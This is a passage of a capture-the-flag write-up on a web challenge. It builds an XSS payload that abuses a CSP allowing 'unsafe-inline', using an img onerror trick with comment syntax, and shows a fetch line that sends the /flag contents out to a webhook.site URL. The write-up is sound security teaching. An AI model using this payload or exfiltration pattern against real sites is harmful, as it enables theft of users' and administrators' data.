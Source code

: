Since `unsafe-inline` is present, we can inject javascript and it will run it.

We can see that our goal is to craft an XSS payload that, when visited by the admin bot, will make a call to the `/flag` endpoint, receive the flag and exfiltrate it.

Clearly the XSS payload will be... tricky.



## XSS POC

Let's prove that XSS is possible.

After some struggling, I found this POC:

```
<img src='
'onerror='/*
*/alert(1)'>
```

Here is what the payload looks like in HTML:

```html
<img src="</label></li><li><input type=&quot;checkbox&quot; id=&quot;item1&quot;><label for=&quot;item1&quot;>" onerror="/*</label></li><li><input type=&quot;checkbox&quot; id=&quot;item2&quot;><label for=&quot;item2&quot;>*/alert(1)">
```

To make this easier to understand, I'll trim out some of the noise:

```html
<img src="..." onerror="/*...*/alert(1)">
```

In case you are not familiar with this approach, the browser will try to load the resource specified by the `src` attribute. Since that is a bunch of junk, that will fail to load. In that case, the browser will execute the script contained in the `onerror` attribute. Thus, it pops the alert box.

Notice how the /* ... */ comment syntax hides the intervening html allowing the end result to be valid javascript.

Also note that I'm not trying for `<script>...</script>` here.  The main reason is because it won't work.  The web page has a script that makes an HTTP request to get the payload and then stores it via an `innerHTML` property on one of the elements. Browsers will not run script elements when they are inserted this way. That behavior seems a litttle silly since you can run scripts in so many other ways.

## Contemplating an Exfiltration Script

If i had no limitations, an exfiltration script might look like this:

```javascript
fetch("/flag").then(r=>r.text()).then(d=>location.href="https://webhook.site/d14effdcd-ca5f-43ae-b2cb-727fddbbc870?"+d)
```

If I tried to build this as a list, it would have a shape like this:
